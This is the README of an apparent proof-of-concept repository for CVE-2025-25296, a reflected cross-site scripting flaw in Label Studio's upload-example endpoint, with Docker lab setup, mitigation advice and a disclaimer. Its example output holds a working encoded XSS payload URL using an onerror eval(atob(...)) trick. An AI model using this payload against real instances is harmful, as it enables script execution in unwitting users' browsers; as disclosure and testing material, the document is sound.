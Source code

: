 # CVE-2025-25296 Proof of Concept (POC)

## Description

This project demonstrates a Proof of Concept (POC) for the CVE-2025-25296 vulnerability affecting Label Studio, an open-source data labeling tool. The vulnerability resides in the `/projects/upload-example` endpoint, which fails to sanitize user-provided HTML content in GET requests. This allows attackers to execute arbitrary JavaScript in the victim's browser, leading to potential Cross-Site Scripting (XSS) attacks.

## Vulnerability Details

- **Affected Component**: `/projects/upload-example` endpoint of Label Studio
- **Impact**: Cross-Site Scripting (XSS)
- **Root Cause**: Improper sanitization of user-provided HTML content in GET requests
- **Exploitation**: Crafting a malicious URL containing a specially formatted XML label config with embedded JavaScript
- **Mitigation**: Update to Label Studio version `1.16.0` or later

## Workaround

As a temporary workaround:
1. Avoid using the `/projects/upload-example` endpoint with GET requests.
2. Prefer POST requests for uploading configurations.

## Requirements

- Python 3.x
- Docker
- Required Python packages (installed via `pip` using `setup.sh`)

## Files

- `poc.py`: Python script to exploit the vulnerability and demonstrate the XSS attack.
- `setup.sh`: Script to set up the vulnerable environment using Docker.

## Setup Instructions

1. Clone this repository:
    ```bash
    git clone CVE-2025-25296-POC
    cd CVE-2025-25296-POC
    ```

2. Run the setup script:
    ```bash
    chmod +x setup.sh
    ./setup.sh
    ```

3. The setup script will:
    - Check for Docker installation.
    - Install required Python packages.
    - Pull the vulnerable Label Studio Docker image (`1.15.0`).
    - Run the vulnerable Label Studio instance on `localhost:8080`.
    - Create an account on http://localhost:8080

## Exploitation

1. Run the exploit script:
    ```bash
    python poc.py
    ```

2. The script will:
    - Send a crafted GET request to the vulnerable `/projects/upload-example` endpoint.
    - Output a URL with the payload.

3. Open the provided URL in a web browser to observe the XSS alert triggered by the payload.

## Example Output

```text
[*] Attempting to send XSS payload...
[+] Payload successfully sent!
[+] Check this URL in a browser: http://localhost:8080/projects/upload-example/?label_config=%3CView%3E%3C!--%20%7B%22data%22%3A%20%7B%22text%22%3A%20%22%3Cdiv%3E%3Cimg%20src%3Dx%20onerror%3Deval(atob(%60YWxlcnQoIlhTUyIp%60))%3E%3C/div%3E%22%7D%7D%20--%3E%3CHyperText%20name%3D%22text%22%20value%3D%22%24text%22/%3E%3C/View%3E
```

## Mitigation Recommendations

To mitigate this vulnerability:
1. Update Label Studio to version `1.16.0` or later.
2. Enable a strict Content Security Policy (CSP) to block script execution.

## Disclaimer

This project is intended for educational and research purposes only. Use it responsibly and only on systems where you have explicit permission. Unauthorized use of this tool may violate applicable laws.

## References

- [Label Studio GitHub Repository](https://github.com/heartexlabs/label-studio)
- [CVE-2025-25296 Details](https://cve.mitre.org/)

